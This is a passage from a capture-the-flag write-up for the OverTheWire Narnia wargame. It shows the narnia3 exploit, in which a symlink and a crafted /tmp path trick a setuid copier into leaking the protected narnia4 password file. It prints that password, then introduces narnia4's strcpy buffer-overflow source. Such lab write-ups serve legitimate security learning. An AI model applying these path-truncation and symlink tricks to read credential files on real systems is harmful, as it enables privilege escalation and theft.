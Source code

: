 It lookes like spaces aren't allowed...
...

We should have a continuous sequence of which only the end is the second file, while the whole is the first file.
```bash
narnia3@narnia:/tmp$ mkdir AAAAAAAAAAAAAABBBBBBAAAAAAB
narnia3@narnia:/tmp$ cd AAAAAAAAAAAAAABBBBBBAAAAAAB
narnia3@narnia:/tmp/AAAAAAAAAAAAAABBBBBBAAAAAAB$ mkdir tmp
narnia3@narnia:/tmp/AAAAAAAAAAAAAABBBBBBAAAAAAB$ cd tmp
narnia3@narnia:/tmp/AAAAAAAAAAAAAABBBBBBAAAAAAB/tmp$ mkdir cezarPP
narnia3@narnia:/tmp/AAAAAAAAAAAAAABBBBBBAAAAAAB/tmp$ cd cezarPP
narnia3@narnia:/tmp/AAAAAAAAAAAAAABBBBBBAAAAAAB/tmp/cezarPP$ 
narnia3@narnia:/tmp/AAAAAAAAAAAAAABBBBBBAAAAAAB/tmp/cezarPP$ ln -s /etc/narnia_pass/narnia4 wow
narnia3@narnia:/tmp/AAAAAAAAAAAAAABBBBBBAAAAAAB/tmp/cezarPP$ /narnia/narnia3 "/tmp/AAAAAAAAAAAAAABBBBBBAAAAAAB/tmp/cezarPP/wow"
copied contents of /tmp/AAAAAAAAAAAAAABBBBBBAAAAAAB/tmp/cezarPP/wow to a safer place... (/tmp/cezarPP/wow)

narnia3@narnia:/tmp/cezarPP$ cat wow
thaenohtai
```

## Narnia 4 - password : thaenohtai

-> buffer overflow with no restrictions
```bash
ssh narnia4@narnia.labs.overthewire.org -p 2226
```

Source:
```c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```
Extern keyword means that memory is not allocated to the variable right away (for function it is implicit)
